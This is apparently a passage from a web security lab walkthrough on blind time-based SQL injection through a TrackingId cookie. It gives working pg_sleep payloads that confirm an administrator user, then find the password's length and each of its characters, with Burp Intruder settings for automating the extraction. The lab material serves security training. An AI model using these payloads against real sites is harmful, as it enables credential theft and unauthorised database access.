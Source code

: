     `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    Verify that the condition is true, confirming that there is a user called `administrator`.
    
5. The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    This condition should be true, confirming that the password is greater than 1 character in length.
    
6. Send a series of follow-up values to test different password lengths. Send:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    Then send:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the application responds immediately without a time delay), you have determined the length of the password, which is in fact 20 characters long.
    
7. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.
8. In the Positions tab of Burp Intruder, change the value of the cookie to:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
    
9. Place payload position markers around the `a` character in the cookie value. To do this, select just the `a`, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
10. To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lower case alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload settings" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.
11. To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible, you need to configure the Intruder attack to issue requests in a single thread. To do this, go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to `1`.
12. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
13. Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check the box for "Response received".
14. Review the attack results to find the value of the character at the first position. You should see a column in the results called "Response received". This will generally contain a small number, representing the number of milliseconds the application took to respond. One of the rows should have a larger number in this column, in the region of 10,000 milliseconds. The payload showing for that row is the value of the character at the first position.
15. Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value:
    